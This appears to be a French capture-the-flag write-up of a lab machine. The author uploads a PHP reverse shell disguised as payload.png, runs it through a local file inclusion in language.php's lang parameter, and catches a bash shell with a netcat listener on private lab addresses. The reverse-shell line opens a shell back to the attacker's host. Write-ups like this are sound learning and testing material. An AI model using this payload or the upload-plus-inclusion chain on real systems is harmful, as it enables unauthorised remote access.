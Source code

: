 - **upload.php**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b7fa4b9c-f5b5-4b13-94c0-abb083b226f8/2021-03-24-16-31-55.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b7fa4b9c-f5b5-4b13-94c0-abb083b226f8/2021-03-24-16-31-55.png)

Bien vu Sherlock, reste maintenant à upload un *"D4rk V1rUs"* pour compromettre la fille de Zeus.

Partons du principe qu'on ne pourra pas mettre n'importe quelle extension à son fichier car il y aura surement des vérifications. On va créer un reverse shell en php qu'on enregistrera en `.png`

- **payload.png**

```bash
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.17.130/6666 0>&1'");
#La requête tcp sera envoyée à 192.168.17.130 (IP de la Kali) sur le port 6666 (parce qu'on est D4rk) et créera un reverse shell qu'on controlera de notre PC
?>
```

Le résultat :

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/73bcd3ca-32df-4296-ad13-f64771845f54/2021-03-24-23-42-11.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/73bcd3ca-32df-4296-ad13-f64771845f54/2021-03-24-23-42-11.png)

Trop fort.

Maintenant il faut pouvoir l'éxécuter.

- **language.php**

```html
<!DOCTYPE html>
<html>
<head>
	<title>Language</title>
</head>
<body>
<input type="submit" value="language" 
    onclick="window.location='language.php?lang=en.php';" />  
</form>
</body>
</html>
```

Quand on regarde le code HTML de ce fichier, on peut voir que lorsque l'on clique sur le magnifique bouton `language`, on est redirigé sur `language.php?lang=en.php` .

Le paramètre attendu étant un fichier `.php`, il est fort probable qu'on puisse lui donner un autre fichier comme notre `payload.png` créé plus tôt.

Testons !

[http://192.168.17.129/0cdb312366ecf1f493bc83f0fb56adda28125498762f28f1cc40c320300125ce/language.php?lang=uploads/payload.png](http://192.168.17.129/0cdb312366ecf1f493bc83f0fb56adda28125498762f28f1cc40c320300125ce/language.php?lang=uploads/payload.png)

Il faut juste préparer l'écoute du shell sur la Kali, puis recharger la page

```bash
┌──(loullouw㉿kaliT)-[~]
└─$ nc -lvnp 6666                                                                  
listening on [any] 6666 ...
connect to [192.168.17.130] from (UNKNOWN) [192.168.17.129] 49448
bash: cannot set terminal process group (602): Inappropriate ioctl for device
bash: no job control in this shell
<493bc83f0fb56adda28125498762f28f1cc40c320300125ce$
```
